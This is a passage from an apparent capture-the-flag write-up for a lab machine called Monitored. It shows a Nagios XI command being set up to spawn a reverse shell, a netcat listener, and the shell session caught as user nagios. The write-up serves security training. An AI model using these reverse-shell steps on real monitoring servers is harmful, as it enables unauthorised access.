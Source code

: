 Now lets navigate to Configure > Core Config Manager > Commands and set up a reverse shell.

![monitored_shell_setup.png](../assets/monitored_assets/monitored_shell_setup.png)

We can then set up a listener, click "Apply Configuration"

We now go to Monitoring > Check Command and locate our rev_shell command and then click "Run Check Command" down at the bottom of the page.

We now catch a shell as user nagios:

```
┌──(ryan㉿kali)-[~/HTB/Monitored]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.108] from (UNKNOWN) [10.129.230.96] 58284
bash: cannot set terminal process group (4938): Inappropriate ioctl for device
bash: no job control in this shell
nagios@monitored:~$ whoami
whoami
nagios
nagios@monitored:~$ hostname
hostname
monitored
```

We can now grab the user.txt flag:

![monitored_user_flag.png](../assets/monitored_assets/monitored_user_flag.png)
